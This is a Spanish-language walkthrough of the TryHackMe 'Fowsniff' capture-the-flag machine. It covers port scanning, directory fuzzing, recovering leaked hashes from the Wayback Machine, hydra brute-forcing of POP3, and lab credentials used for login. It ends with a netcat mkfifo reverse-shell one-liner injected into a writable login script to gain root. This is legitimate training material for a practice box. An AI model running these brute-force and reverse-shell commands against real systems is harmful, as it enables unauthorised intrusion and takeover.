En esta maquina es de nivel `easy` que tendremos que econtrar dos flags, del user y del root. Antes de ello tenemos que encotrar credenciales de una web que actualmente ya no esta disponible

Created by [ben](https://tryhackme.com/p/ben)

# Metodología
- Enumeración
  - Escaneo de red
  - Enumeración de servicios y versiones
  - Puerto 80
  - Fuzzing
- Explotación
  - Waybck machine
  - Pop3 
- Escalar Privilegios
  - Permisos de grupo

# Walkthrough

## Enumeración

### Escaneo de red

Empezamos a enumerar lo puertos de la maquina victima

```java
 ❯ nmap -p- --open --min-rate 5000 -vvv [IP] -Pn -n
```

`nmap`: Este es el comando principal que inicia la utilidad de escaneo de puertos nmap.

`-p-`: Esta opción indica a nmap que escanee todos los puertos, desde el puerto 1 hasta el puerto 65535. El guion (-) después de -p es un atajo para indicar "todos los puertos".

`--open`: Esta opción hace que nmap solo muestre los puertos que están abiertos. Esto significa que solo se mostrarán los puertos en los que hay servicios o aplicaciones escuchando conexiones.

`--min-rate 5000`: Esta opción establece la velocidad mínima de escaneo en 5000 paquetes por segundo (pps). Esto es bastante rápido y puede ayudar a acelerar el escaneo, pero ten en cuenta que podría aumentar la detección de intrusiones.

`-vvv`: Estas tres "v" representan la opción "verbose" (detallada). Agregar múltiples "v" aumenta el nivel de detalle de la salida. En este caso, se ha configurado para que la salida sea muy detallada, lo que proporcionará mucha información sobre el escaneo en curso.

`[IP]`: Esta es la dirección IP del host que se va a escanear. nmap escaneará los puertos de esta máquina.

`-Pn`: Esta opción le indica a nmap que no realice un ping para determinar si el host está activo o no. Normalmente, nmap realiza un "ping sweep" antes del escaneo de puertos para detectar hosts activos. La opción -Pn desactiva esta función, lo que significa que nmap intentará escanear los puertos incluso si el host no responde a los pings.

`-n`: Esta opción le dice a nmap que no realice la resolución de nombres DNS. En otras palabras, nmap no intentará traducir las direcciones IP a nombres de host durante el escaneo.

Encontramos los siguientes puertos abiertos

```java
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack
80/tcp  open  http    syn-ack
110/tcp open  pop3    syn-ack
143/tcp open  imap    syn-ack

```

### Enumeración de servicios y versiones

Enumeramos los versiones y servicios de los puertos que encontramos

```java
❯ nmap -p22,80,110,143 -Pn -vvv -sC -sV 10.10.8.207 -oN servicesScan
```


```java
PORT    STATE SERVICE REASON  VERSION
22/tcp  open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsEu5DAulaUX38ePQyI/MzevdyvWR3AXyrddVqbu9exD/jVVKZopquTfkbNwS5ZkADUvggwHnjZiLdOZO378azuUfSp5geR9WQMeKR9xJe8swjKINBtwttFgP2GrG+7IO+WWpxBSGa8akgmLDPZHs2XXd6MXY9swqfjN9+eoLX8FKYVGmf5BKfRcg4ZHW8rQZAZwiMDqQLYechzRPnePiGCav99v0X5B8ehNCCuRTQkm9DhkAcxVBlkXKq1XuFgUBF9y+mVoa0tgtiPYC3lTOBgKuwVZwFMSGoQStiw4n7Dupa6NmBrLUMKTX1oYwmN0wnYVH2oDvwB3Y4n826Iymh
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPowlRdlwndVdJLnQjxm5YLEUTZZfjfZO7TCW1AaiEjkmNQPGf1o1+iKwQJOZ6rUUJglqG8h3UwddXw75eUx5WA=
|   256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHU5PslBhG8yY6H4dpum8qgwUn6wE3Yrojnu4I5q0eTd
80/tcp  open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: Fowsniff Corp - Delivering Solutions
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3    syn-ack Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) RESP-CODES UIDL AUTH-RESP-CODE CAPA PIPELINING TOP USER
143/tcp open  imap    syn-ack Dovecot imapd
|_imap-capabilities: Pre-login more IMAP4rev1 IDLE LOGIN-REFERRALS SASL-IR have ENABLE ID post-login capabilities AUTH=PLAINA0001 LITERAL+ listed OK
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Puerto 80

Vamos a enumerar el puerto `80` que muestra una web. 



### Fuzzing

Realizaremos `fuzzing` en el directorio de la web en el puerto `80`.

```java
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.8.207/ -t 100 -x txt,php
```

`dir`: La opción "dir" le indica a gobuster que se realice un escaneo de directorios en lugar de archivos.

`-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`: Esta opción especifica la lista de palabras o diccionario que se utilizará para adivinar nombres de directorios en el servidor web. En este caso, se utiliza el archivo "/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt" como diccionario. Esto significa que gobuster probará cada una de las palabras en ese archivo como nombres de directorios en el servidor web.

`-u http://[IP]/`: Esta opción indica la URL del servidor web que se va a escanear. En este caso, gobuster realizará el escaneo en "http://10.10.8.207/".

`-t 100`: Esta opción establece el número de hilos que se utilizarán para realizar el escaneo. En este caso, se han configurado 100 hilos, lo que significa que gobuster ejecutará múltiples solicitudes de escaneo en paralelo para acelerar el proceso.

Encontramos los siguientes siguientes directorios:

```java
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.8.207/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.8.207/images/]
/security.txt         (Status: 200) [Size: 459]
/assets               (Status: 301) [Size: 311] [--> http://10.10.8.207/assets/]
/README.txt           (Status: 200) [Size: 1288]
/robots.txt           (Status: 200) [Size: 26]
/LICENSE.txt          (Status: 200) [Size: 17128]
/server-status        (Status: 403) [Size: 299]
```
En el directorio `http://[ip]/security.txt` encontramos los siguiente



Con lo que vemos que la web fue comprometida y dejaron un mensaje

## Explotación

Si buscamos el un poco en la web nos encontraremos con un twitter



El cual nos llevara a un pastebin, el cual ya no existe.



### Wayback Machine

- [wayback machine](https://web.archive.org/)

Vamos hacer uso de una web que es muy util para viajar en el tiempo de como se veian las web hace unos años



Al ingresar la url que nos da en twitter podemos ver algunas credenciales



Tenemos los siguientes usuario y credenciales

```java
mauer@fowsniff:8a28a94a588a95b80163709ab4313***
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7***
tegel@fowsniff:1dc352435fecca338acfd4be10984***
baksteen@fowsniff:19f5af754c31f1e2651edde9250d6***
seina@fowsniff:90dc16d47114aa13671c697fd506c***
stone@fowsniff:a92b8a29ef1183192e3d35187e0cf***
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0***
parede@fowsniff:4d6e42f56e127803285a0a7649b5a***
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5***
```
- Usuarios

```java
mailcall
bilbo101
apples01
skyler22
scoobydoo2
carp4ever
orlando12
07011972
```

### pop3

Para crackear los hashes que encontramos en la web vamos a usar [crackstation](https://crackstation.net/)

Ahora haciendo uso de las crdenciales realiozaremos `brute force` al servicio `pop3` 

```java
❯ hydra -L user.txt -P password.txt pop3://10.10.142.64
```

`hydra`: Es el comando principal para ejecutar la herramienta de ataque de fuerza bruta "Hydra". Hydra se utiliza para probar combinaciones de nombres de usuario y contraseñas para obtener acceso no autorizado a servicios que utilizan autenticación.

`-L user.txt`: Esta opción especifica el archivo "user.txt" que contiene una lista de nombres de usuario que se utilizarán en el ataque de fuerza bruta. Hydra probará cada nombre de usuario en esta lista junto con las contraseñas proporcionadas.

`-P password.txt`: Esta opción especifica el archivo "password.txt" que contiene una lista de contraseñas que se utilizarán en el ataque de fuerza bruta. Hydra probará cada contraseña en esta lista junto con los nombres de usuario proporcionados.

`pop3://[ip]`: Aquí se especifica el protocolo y la dirección IP del servidor POP3 que se va a atacar. En este caso, el objetivo es el servidor POP3 en "[IP]".

Encontramos unas credenciales las cuales usaremos para ingresar



Para enumerar `pop3` usaremos [Enumeración de pop3](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop#pop-syntax) donde hay mas documentación

```java
❯ telnet 10.10.142.64 110
Trying 10.10.142.64...
Connected to 10.10.142.64.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
retr 1
```

`telnet [IP]`: Este comando inicia una sesión de telnet con el servidor que tiene la dirección IP 10.10.142.64 en el puerto 110. El puerto 110 es el puerto estándar utilizado por el protocolo POP3 para la recepción de correo electrónico.

`USER seina`: El usuario envía el comando USER seguido del nombre de usuario "seina" al servidor POP3. Esto se utiliza para autenticarse en el servidor POP3.

`PASS scoobydoo2`: El usuario envía el comando PASS seguido de la contraseña "scoobydoo2" al servidor POP3. Esto se utiliza para autenticarse con la contraseña correspondiente al nombre de usuario.

`list`: El usuario envía el comando list al servidor. El comando list se utiliza para enumerar los mensajes de correo electrónico en el servidor.

`1 1622`: El servidor enumera el primer mensaje con "1" y muestra su tamaño, que es de 1622 bytes.

`2 1280`: El servidor enumera el segundo mensaje con "2" y muestra su tamaño, que es de 1280 bytes.

`retr 1`: El usuario envía el comando retr 1 para recuperar el primer mensaje. El servidor responderá proporcionando el contenido del mensaje.

En el mensaje que encontramos, podemos ver unas credenciales que usaremos para ingresar por `ssh` 


```java
baksteen: S1ck3nBluff+secureshell
```
### SSH



## Escalación de privilegios

Para escalar privilegios buscaremos archivos que el grupo `users` pueda ejecutar

```java
baksteen@fowsniff:/home$ find / -group users -type f -ls 2>/dev/null |grep -vE "proc|sys"
```



Encontramos `cube.sh` el cual se ejecuta al iniciar sesion de `ssh` 

```java
/opt/cube/cube.sh
```
Entonces podemos inyectar un comando para que nos de una shell como el usuario root



PAra obtener una reverse shell usaremos lo siguiente:

```java
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] 4242 >/tmp/f
```



¡VAMOS!
Happy Hacking